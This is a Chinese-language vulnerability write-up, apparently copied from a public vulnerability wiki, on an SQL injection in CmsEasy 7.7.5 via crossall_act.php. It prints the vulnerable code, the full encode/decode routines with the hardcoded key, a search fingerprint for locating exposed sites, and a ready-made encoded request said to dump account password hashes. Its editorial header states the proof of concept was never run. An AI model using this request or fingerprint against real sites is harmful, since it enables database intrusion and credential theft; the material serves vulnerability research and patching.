




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：7.7.5_20210919; public crossall route presumed; known hardcoded cmseasy_sql encoding key

- **结论使用边界（1）**：Clear decode-to-SQL sinks and complete lock/unlock code。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：Auth/access-control path not shown; no explicit proof all unauthenticated callers reach actions。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：Example encoded SQL not paired with decoded plaintext, table prefix or response text。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：Secondary repository source only。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CmsEasy crossall_act.php SQL注入漏洞

## 漏洞描述

CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现



存在漏洞的文件为 `lib/default/crossall_act.php`



其中需要注意的代码为

```
function execsql_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
        echo json_encode($returndata);
        exit;
    }
    function execsqls_action(){
            $sqlquery=front::get("sql");
            $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

            $returndata=tdatabase::getInstance()->rec_query($sqlquery);
            echo json_encode($returndata);
            exit;
        }
    function execupdate_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->query($sqlquery);
        echo json_encode($returndata);
        exit;
    }
```

代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句

查看文件 `lib/table/service.php`

```
public static function lockString($txt,$key='cmseasy_sql')
    {
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $nh = rand(0,64);
        $ch = $chars[$nh];
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = base64_encode($txt);
        $tmp = '';
        $i=0;$j=0;$k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
            $tmp .= $chars[$j];
        }
        return urlencode($ch.$tmp);
    }

    /**对字符串进行解密。 crossall_act文件使用
     * @param $txt
     * @param string $key
     * @return bool|string
     */
    public static function unlockString($txt,$key='cmseasy_sql')
    {
        $txt = urldecode($txt);
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $ch = $txt[0];
        $nh = strpos($chars,$ch);
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = substr($txt,1);
        $tmp = '';
        $i=0;$j=0; $k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
            while ($j<0) $j+=64;
            $tmp .= $chars[$j];
        }
        return base64_decode($tmp);
    }
```

文件中得到了 `$key='cmseasy_sql'` 和加解密方法，构造请求获取账号密码md5



```
/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
